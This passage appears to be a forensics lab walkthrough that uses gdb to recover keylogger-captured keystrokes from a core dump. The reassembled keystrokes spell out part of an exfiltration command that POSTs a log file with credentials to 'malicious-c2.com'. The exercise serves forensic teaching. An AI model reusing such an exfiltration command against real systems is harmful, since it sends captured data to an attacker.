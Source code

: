 ![Analyzing core dump with gdb](./images/c26.03.02.png "Analyzing core dump with gdb")

3. From within gdb, run `bt` to show the backtrace of the program

This will reveal the in-memory array that is holding the recorded keypresses.

![Viewing backtrace in gdb](./images/c26.03.03.png "Viewing backtrace in gdb")

4. Reassemble the data to be more readable

Copy + paste the in-memory array

```plain
['[Key.space]', '[Key.shift]', 'P', 'O', 'S', 'T', '[Key.space]', '-', 'd', '[Key.space]', '[Key.shift_r]', '"', 'l', 'o', 'g', 'f', 'i', 'l', 'e', '.', 't', 'x', 't', '[Key.shift_r]', '"', '[Key.space]', '-', 'u', '[Key.space]', 'n', '0', 'w', '[Key.shift]', 'U', 'c', 'm', '3', '[Key.shift_r]', ':', 'm', '[Key.shift]', '@', 'l', '[Key.shift]', 'C', '2', '[Key.shift]', '_', '[Key.shift]', 'E', 'x', 'f', 'i', 'l', '[Key.shift_r]', '#', '[Key.space]', 'h', 't', 't', 'p', '[Key.shift_r]', ':', '/', '/', 'm', 'a', 'l', 'i', 'c', 'i', 'o', 'u', 's', '-', 'c', '2', '.', 'c', 'o', 'm', '/', ...(truncated),
```
